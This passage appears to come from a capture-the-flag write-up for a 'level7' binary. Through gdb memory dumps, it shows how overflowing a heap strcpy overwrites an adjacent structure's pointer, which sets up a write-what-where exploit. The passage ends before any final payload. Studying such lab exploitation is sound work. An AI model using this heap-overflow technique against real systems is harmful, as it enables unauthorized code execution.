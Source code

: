 	Breakpoint 9, 0x08048569 in main ()
	(gdb) x/wx $esp+0x18
		0xbffff6d8:	|0x0804a028|

Let's see what we have after strcpy if we send two arguments `./level7 abc edf`:

	(gdb) x/50wx 0x0804a008
		0x804a008:	*0x00000001*	**0x0804a018**	0x00000000	0x00000011
		**0x804a018**:	|0x00636261|	0x00000000	0x00000000	0x00000011
		0x804a028:	*0x00000002*	**0x0804a038**	0x00000000	0x00000011
		**0x804a038**:	|0x00666564|	0x00000000	0x00000000	0x00020fc1
		0x804a048:	0x00000000	0x00000000	0x00000000	0x00000000
		0x804a058:	0x00000000	0x00000000	0x00000000	0x00000000
		0x804a068:	0x00000000	0x00000000	0x00000000	0x00000000
		0x804a078:	0x00000000	0x00000000	0x00000000	0x00000000
		0x804a088:	0x00000000	0x00000000	0x00000000	0x00000000
		0x804a098:	0x00000000	0x00000000	0x00000000	0x00000000
		0x804a0a8:	0x00000000	0x00000000	0x00000000	0x00000000
		0x804a0b8:	0x00000000	0x00000000	0x00000000	0x00000000
		0x804a0c8:	0x00000000	0x00000000

With | we see "abc\0" and "edf\0". We also have malloc inside malloc - it is marked with **. Let's try to overfill the first argument and see what we have:

	Starting program: /home/user/level7/level7 AAAAAAAAAAAAAAAAAAAA BBBB
	Breakpoint 10, 0x080485c2 in main ()
	(gdb) x/50wx $esp
		0xbffff6b0:	0x0804a000	0xbffff8d5	0xb7fd0ff4	0xb7e5ee55
		0xbffff6c0:	0xb7fed280	0x00000000	|0x0804a028|	|0x0804a008|
		0xbffff6d0:	0x08048610	0x00000000	0x00000000	0xb7e454d3
		0xbffff6e0:	0x00000003	0xbffff774	0xbffff784	0xb7fdc858
		0xbffff6f0:	0x00000000	0xbffff71c	0xbffff784	0x00000000
		0xbffff700:	0x0804825c	0xb7fd0ff4	0x00000000	0x00000000
		0xbffff710:	0x00000000	0x3e347a7e	0x09709e6e	0x00000000
		0xbffff720:	0x00000000	0x00000000	0x00000003	0x08048440
		0xbffff730:	0x00000000	0xb7ff26b0	0xb7e453e9	0xb7ffeff4
		0xbffff740:	0x00000003	0x08048440	0x00000000	0x08048461
		0xbffff750:	0x08048521	0x00000003	0xbffff774	0x08048610
		0xbffff760:	0x08048680	0xb7fed280	0xbffff76c	0xb7fff918
		0xbffff770:	0x00000003	0xbffff8a7

First argument is lower in stack so we can look at it and see the second arguments as well:

	(gdb) x/20wx 0x0804a008
		|0x804a008|:	0x00000001	**0x0804a018**	0x00000000	0x00000011
		**0x804a018**:	0x41414141	0x41414141	0x41414141	0x41414141
		|0x804a028|:	0x41414141	**0x0804a000**	0x00000000	0x00000011
		0x804a038:	0x00000000	0x00000000	0x00000000	0x00020fc1
		0x804a048:	0x00000000	0x00000000	0x00000000	0x00000000

We see that now at 0x804a028 + 4 address lies so other address than 0x804a038 - it is 0x0804a000. What we have there:
